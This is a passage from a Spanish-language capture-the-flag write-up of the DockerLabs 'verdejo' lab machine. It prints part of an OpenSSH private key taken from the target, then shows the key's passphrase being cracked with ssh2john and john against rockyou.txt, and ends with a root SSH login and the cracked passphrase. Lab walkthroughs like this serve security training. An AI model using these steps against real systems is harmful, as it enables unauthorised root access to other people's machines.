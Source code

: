 ```terminal
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
vEACJSQrQKz9mWnewtRP5pzZk=
-----END OPENSSH PRIVATE KEY-----
```
```terminal
/home/kali/Documents/dockerlabs/verdejo:-$ chmod 600 id_rsa

/home/kali/Documents/dockerlabs/verdejo:-$ ssh root@127.17.0.2 -i id_rsa                                 
Enter passphrase for key 'id_rsa':
```

Intenté conectarme por SSH como `root` utilizando la clave privada obtenida, pero la clave estaba protegida con una contraseña.

Procedí a utilizar la herramienta ssh2john para extraer el hash de la clave privada y luego empleé john con el diccionario `rockyou.txt` para realizar un ataque de fuerza bruta.

```terminal
/home/kali/Documents/dockerlabs/verdejo:-$ ssh2john id_rsa > hash

/home/kali/Documents/dockerlabs/verdejo:-$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
honda1           (id_rsa)
```

Una vez obtenida la passphrase `honda1`, pude conectarme exitosamente como `root`.

```terminal
/home/kali/Documents/dockerlabs/verdejo:-$ ssh root@127.17.0.2 -i id_rsa
Enter passphrase for key 'id_rsa': honda1

root@kali:~# id
uid=0(root) gid=0(root) groups=0(root)
```
